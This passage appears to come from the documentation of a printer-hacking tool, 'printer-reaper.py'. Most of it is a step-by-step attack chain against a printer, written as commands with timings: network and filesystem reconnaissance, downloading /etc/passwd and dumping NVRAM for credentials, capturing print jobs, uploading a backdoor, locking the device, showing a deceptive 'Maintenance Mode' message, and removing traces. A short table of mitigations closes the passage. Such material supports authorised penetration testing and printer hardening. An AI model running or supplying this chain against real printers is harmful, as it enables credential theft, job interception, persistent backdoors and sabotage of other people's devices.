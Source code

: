**Impact**: Data manipulation, fraud

---

## 🔗 Attack Chains

### Full Attack Chain Example

**Objective**: Complete printer compromise

**Phase 1: Reconnaissance** (5 minutes)
```bash
1. python3 printer-reaper.py          # Discover
2. python3 printer-reaper.py <ip> pjl # Connect
3. > id                                # Identify
4. > network                           # Map network
5. > find                              # Map filesystem
```

**Phase 2: Exploitation** (10 minutes)
```bash
6. > download /etc/passwd              # Exfiltrate creds
7. > nvram dump                        # Dump NVRAM
8. > mirror                            # Full filesystem
9. > hold                              # Enable capture
10. > capture                          # Start capturing
```

**Phase 3: Persistence** (5 minutes)
```bash
11. > upload backdoor.ps               # Install backdoor
12. > lock 31337                       # Lock printer
13. > display "Maintenance Mode"       # Social engineering
```

**Phase 4: Cleanup** (2 minutes)
```bash
14. > backdoor_remove                  # Remove traces
15. > exit                             # Disconnect
```

**Total Time**: ~22 minutes  
**Impact**: Full compromise

---

## 🛡️ Defense Recommendations

### Mitigation Strategies

For each attack vector:

| Attack | Mitigation |
|--------|------------|
| Filesystem Access | Disable PJL, enable authentication |
| Password Extraction | Encrypt NVRAM, remove default passwords |
| Authentication Bypass | Use strong PINs (10000+), disable bypass |
| Denial of Service | Rate limiting, connection limits |
| Job Capture | Encrypt print jobs, disable retention |
| Persistence | Regular firmware updates, file integrity monitoring |
| Physical Damage | Physical security, disable destructive commands |

---